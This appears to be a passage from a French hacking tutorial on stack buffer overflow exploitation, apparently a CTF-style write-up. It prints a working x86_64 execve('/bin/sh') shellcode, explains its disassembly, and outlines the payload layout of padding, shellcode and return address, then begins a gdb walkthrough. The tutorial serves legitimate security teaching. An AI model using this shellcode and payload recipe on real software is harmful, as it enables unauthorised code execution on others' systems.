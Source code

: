 Et c'est gagné du coup ! `^~^`

Recherche du Shellcode :

On sait maintenant à peu près où on va injecter. Ce qu'il nous faut maintenant c'est un shellcode, un bon, un vrai ! :D

Petit tour sur [shellstorm](http://shell-storm.org/shellcode/) ou [exploit-db](https://www.exploit-db.com/), choisir la bonne architecture, ...

Pour ma part il est fait maison, ou plutôt refait maison, car l'idée générale reste la mêm : Placer les bons paramètres dans les registres, puis déclencher un syscall pour que le kernel exécute ce que l'on veut, ici un shell.

Shellcode :

`\x48\xB8\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xE8\x08\x50\x48\x89\xE7\x48\x31\xC0\xB0\x3B\x48\x31\xF6\x48\x31\xD2\x0F\x05`

On va quand même le désassembler pour comprendre ce qu'il fait, et ce grâce à ce site : https://onlinedisassembler.com

<img class="img_full" src="/hacking/pwn_1of4_buffer_overflow/shellcode.png" alt="shellcode" >

```
0  : "//bin/sh" dans rax
A  : "/bin/sh\x00" dans rax
E  : mettre rax en pile
F  : rdi pointe vers la pile
12 : 0 dans rax
15 : 59 dans rax (execve)
17 : 0 dans rsi
1a : 0 dans rdx
1d : Initier le syscall
```

Ceci va donc exécuter `/bin/sh` à l'aide du syscall de execve.

Les paramètres à utiliser sont trouvés à l'aide de cette doc :\
https://w3challs.com/syscalls/?arch=x86_64


## Développement de l'exploit

On veut donc arriver à mettre notre shellcode à un endroit connu, puis atteindre une taille de 40 bytes pour y placer l'adresse du shellcode à exécuter. Yapluka !

Notre payload (données envoyées lors de l'attaque) aura donc la forme suivante :\
PADDING + SHELLCODE + ADRESSE_SHELLCODE

Afin de trouver où se situent les données entrées par l'utilisateur, dans gdb :

On désassemble le main (convention de nom pour la fonction principale du programme), défini un point d'arrêt avant la fin de l'exécution, puis le lance avec AAAA en paramètre.

<img class="img_full" src="/hacking/pwn_1of4_buffer_overflow/disas_main.png" alt="disas_main" >

<img class="img_full" src="/hacking/pwn_1of4_buffer_overflow/find.png" alt="find" >
